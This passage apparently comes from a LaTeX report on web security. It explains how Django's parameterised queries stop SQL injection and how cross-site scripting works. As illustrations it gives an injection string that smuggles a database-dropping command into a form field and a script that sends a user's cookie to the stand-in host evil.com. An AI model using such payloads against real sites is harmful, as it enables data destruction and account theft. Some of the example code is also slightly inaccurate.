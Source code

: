         Django prevents these forms of attacks mentioned by using the concept of {\slshape Prepared Statements}, or {\slshape Query Parameterisation}, which is an accepted way to prevent such attacks (\cite{amirtahmasebi2009survey}). In a `raw' SQL query, no distinction is made between SQL keywords, and strings. So in a statement such as this:
        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = 23\end{lstlisting}
        no distinction is made between keywords such as SELECT and FROM, and a string, 23. If therefore, a form on the website allowed a user to enter WebCustomerID, they can select all User Records related to that WebCustomerID, but they could also type something like {\slshape `\' \space ; DROP ALL DATABASES;--'}, then this would be interpreted by the database as follows:

        \begin{lstlisting}[style=SQLStyle]
SELECT * FROM UserRecords2 WHERE WebCustomerID = ''; 
DROP ALL DATABASES;
--'\end{lstlisting}

        It would see two seperate commands, first find all records where WebCustomerID is an empty string, then erase everything. Clearly, this is a problem. Django's solution is to escape any string values in a syntax similar to the following:

        \begin{lstlisting}[style=SQLStyle]
`SELECT * FROM UserRecords2 WHERE WebCustomerID = \%s', id\end{lstlisting}

        The id value is therefore treated as a string, and the database will know not to execute the statement.

        \paragraph{Cross Site Scripting (XSS)}
        This works by a user injecting code into the website that is later executed inadvertently (\cite{di2004identifying}). As an example, in a newspaper website, a user could post comments, but within the comment, they might put something like the following in:
        \begin{lstlisting}[style=HTMLStyle]
<script>
    location.URL=`http://www.evil.com/' + document.cookie
</script>\end{lstlisting}
        Instead of the browser treating the above text as HTML markup, it would execute it as JavaScript code, sending the user's cookie to a third party, and from there, the hacker could access their account on that website.

